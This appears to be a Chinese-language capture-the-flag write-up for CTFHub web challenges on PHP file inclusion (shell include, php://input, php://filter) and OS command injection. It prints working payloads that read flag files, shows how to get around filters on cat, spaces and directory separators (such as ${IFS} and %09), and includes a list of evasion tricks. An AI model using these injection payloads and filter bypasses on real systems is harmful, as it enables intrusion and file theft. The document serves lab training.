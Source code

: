 ![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016184140.png)
payload:`?file=shell.txt&ctfhub=system("cat%20/flag");`
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016184303.png)
#### php://input
本题使用php伪协议的`php://input`协议,`input`会执行POST传参的代码  
构建payload:
```
?file=php://input
<?php system("cat /flag_19026");?>
```
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016192319.png)
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016192400.png)
#### 读取源代码
本题知道flag文件的位置和名字所以可以使用`php://filter`  
payload: `http://challenge-b0f2136ee5f68477.sandbox.ctfhub.com:10800/?file=php://filter/read=convert.base64-encode/resource=/flag`
base64解码得到flag
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016193127.png)
#### 远程包含
同[php://input]  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016194416.png)
#### 命令注入
输入的命令都会被执行,执行结果被输入到数组后输出  
ls后没找到叫flag的文件,比较可疑的文件是 `/19288840219209.php`  
payload: `www.baudu.com;cat /19288840219209.php;`
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016171947.png)
但是文件似乎是空的,最后发现flag被注释了
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016172049.png)
#### 过滤cat
cat被过滤可以使用less、more、tail等命令来代替cat
payload: `www.baidu.com;less flag_11782911715210.php`
flag依旧被注释了
#### 过滤空格
使用`${IFS}`绕过,flag被注释了  
列出一些其他绕过空格的方式:
空格过滤绕过：
```
1. 大括号{}:  
{cat,flag.php}  

2. $IFS代替空格{}
$IFS$9,${IFS},$IFS这三个都行  
Linux下有一个特殊的环境变量叫做IFS,叫做内部字段分隔符 (internal field separator)。  
?cmd=ls$IFS-I  
单纯$IFS2,IFS2被bash解释器当做变量名,输不出来结果,加一个{}就固定了变量名  
?cmd=ls${IFS}-l  
$IFS$9后面加个$与{}类似,起截断作用,$9是当前系统shell进程第九个参数持有者始终为空字符串。  
?cmd=ls${IFS}$9-l 

3. 重定向字符<,<>  

4. %09绕过(相当于Tab键)  
```
#### 过滤目录分隔符
ls发现当前目录下的/flag_is_here文件夹,ls此文件夹发现flag文件,cat即可
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241016174122.png)  